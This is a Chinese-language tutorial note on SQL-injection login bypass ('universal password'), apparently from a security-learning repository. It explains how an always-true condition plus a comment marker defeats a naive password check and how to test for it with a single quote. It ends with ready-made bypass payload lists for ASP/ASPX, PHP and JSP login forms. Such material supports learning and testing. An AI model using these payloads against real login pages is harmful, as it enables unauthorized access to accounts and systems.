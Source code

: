 ##OR漏洞简述
该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

##漏洞原理
由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。
例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为
```
SELECT * FROM admin WHERE Name='admin' and passWord='123'
```
而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为
```
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
```
此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。
原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

##判断方法
在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

##不同类型程序的万能密码
应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

###asp aspx万能密码
* `"or "a"="a`
* `')or('a'='a`
* `or 1=1--`
* `'or 1=1--`
* `a'or' 1=1--`
* `"or 1=1--`
* `'or'a'='a`
* `"or"="a'='a`
* `'or''='`
* `'or'='or'`
* `1 or '1'='1'=1`
* `1 or '1'='1' or 1=1`
* `'OR 1=1%00`
* `"or 1=1%00`
* `'xor`
* `用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1`
* `..admin' or 'a'='a 密码随便`

###PHP万能密码
* `'or 1=1/\*`
* `User: something`
* `Pass: ' or '1'='1`

###jsp 万能密码
* `1'or'1'='1`
* `admin' or 1=1/\*`